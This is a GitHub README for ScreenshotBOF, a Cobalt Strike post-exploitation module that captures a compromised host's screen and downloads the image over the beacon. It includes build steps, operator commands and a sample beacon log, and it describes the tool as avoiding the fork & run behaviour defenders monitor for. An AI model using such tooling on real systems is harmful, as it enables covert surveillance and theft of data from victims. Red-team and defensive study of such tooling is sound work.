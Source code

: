 # ScreenshotBOF

An alternative screenshot capability for Cobalt Strike that uses WinAPI and does not perform a fork & run. Screenshot downloaded in memory.

## Self Compilation
1. git clone the repo
2. open the solution in Visual Studio
3. Build project BOF

## Save methods:  
0. drop file to disk
1. download file over beacon (Cobalt Strike only)

## Usage
1. import the screenshotBOF.cna script into Cobalt Strike
2. use the command screenshot_bof {local filename} {save method 0/1}
  
```
beacon> screenshot_bof sad.bmp 1
[*] Running screenshot BOF by (@codex_tf2)
[+] host called home, sent: 5267 bytes
[+] received output:
[*] Screen saved to bitmap
[+] received output:
[*] Downloading bitmap over beacon with filename sad.bmp
[*] started download of sad.bmp
```

3. if downloaded over beacon, BMP can be viewed in Cobalt Strike by right clicking the download and clicking "Render BMP" (credit @BinaryFaultline)  
  
![image](https://user-images.githubusercontent.com/29991665/199232459-0601e5d8-d534-4f05-bde4-c8acf3bd3c12.png)
  
![image](https://user-images.githubusercontent.com/29991665/199233465-8159cec4-90a4-4d82-beff-b012753b3559.png)




## Notes
- no evasion is performed, which should be fine since the WinAPIs used are not malicious

## Why did I make this?
Cobalt Strike uses a technique known as fork & run for many of its post-ex capabilities, including the screenshot command. While this behaviour provides stability, it is now well known and heavily monitored for. This BOF is meant to provide a more OPSEC safe version of the screenshot capability.

## Credits
- Made using https://github.com/securifybv/Visual-Studio-BOF-template
- Save BMP to file from https://stackoverflow.com/a/60667564
- in memory download from https://github.com/anthemtotheego/CredBandit
- @BinaryFaultline for BMP rendering in aggressorscript, and screenshot callback branch
